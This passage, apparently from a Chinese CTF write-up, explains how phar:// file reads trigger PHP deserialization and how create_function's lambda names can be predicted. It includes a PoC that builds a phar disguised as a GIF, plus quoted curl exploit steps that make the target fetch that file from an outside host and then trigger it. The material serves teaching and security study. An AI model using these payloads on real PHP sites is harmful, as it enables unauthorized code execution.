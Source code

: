 [https://github.com/php/php-src/blob/238916b5c9b7d09a711aad5656710eb4d1a80518/ext/phar/phar.c#L609](https://github.com/php/php-src/blob/238916b5c9b7d09a711aad5656710eb4d1a80518/ext/phar/phar.c#L609)

![image.png-72.4kB][2]

当使用`phar://`协议读取文件的时候，文件内容会被解析成phar对象，然后phar对象内的Metadata信息会被反序列化。这样我们就能构造一个我们想要的admin类了

这样我们就可以通过文件读取漏洞实现一个反序列化漏洞了。

这里poc来自于p师傅的小密圈@代码审计

```
<?php
class Admin {
	public $avatar = 'orz';  
} 
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['file.php'] = '<?php ?>';
$p->setMetadata(new Admin());
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
rename(__DIR__ . '/avatar.phar', __DIR__ . '/avatar.gif');
?>
```

当我们能够获取一个反序列化的admin对象之后，我们遇到了新的问题。

```
$FLAG    = create_function("", 'die(`/read_flag`);');
```

获取flag的函数是通过`create_function`，并没有设置函数名字，但其实这里声明的函数是有函数名的，匿名函数会被设置为`\x00lambda_%d`，这里的%d是顺序递增的。

我们仍然可以从php的源码里找到这个问题

[https://github.com/php/php-src/blob/d56a534acc52b0bb7d61ac7c3386ab96e8ca4a97/Zend/zend_builtin_functions.c#L1914](https://github.com/php/php-src/blob/d56a534acc52b0bb7d61ac7c3386ab96e8ca4a97/Zend/zend_builtin_functions.c#L1914)

```
		do {
			ZSTR_LEN(function_name) = snprintf(ZSTR_VAL(function_name) + 1, sizeof("lambda_")+MAX_LENGTH_OF_LONG, "lambda_%d", ++EG(lambda_count)) + 1;
		} while (zend_hash_add_ptr(EG(function_table), function_name, func) == NULL);
		RETURN_NEW_STR(function_name);
	} else {
		zend_hash_str_del(EG(function_table), LAMBDA_TEMP_FUNCNAME, sizeof(LAMBDA_TEMP_FUNCNAME)-1);
		RETURN_FALSE;
```

这里的%d会一直递增到最大长度直到结束，这里我们可以通过大量的请求来迫使Pre-fork模式启动的Apache启动新的线程，这样这里的%d会刷新为1，就可以预测了。

在orange公布的writeup中可以得到它使用的脚本以及exp
```
# get a cookie
$ curl http://host/ --cookie-jar cookie

# download .phar file from http://orange.tw/avatar.gif
$ curl -b cookie 'http://host/?m=upload&url=http://orange.tw/'

# force apache to fork new process
$ python fork.py &

# get flag
$ curl -b cookie "http://host/?m=upload&url=phar:///var/www/data/$MD5_IP/&lucky=%00lambda_1"
```



  [1]: http://static.zybuluo.com/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: http://static.zybuluo.com/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png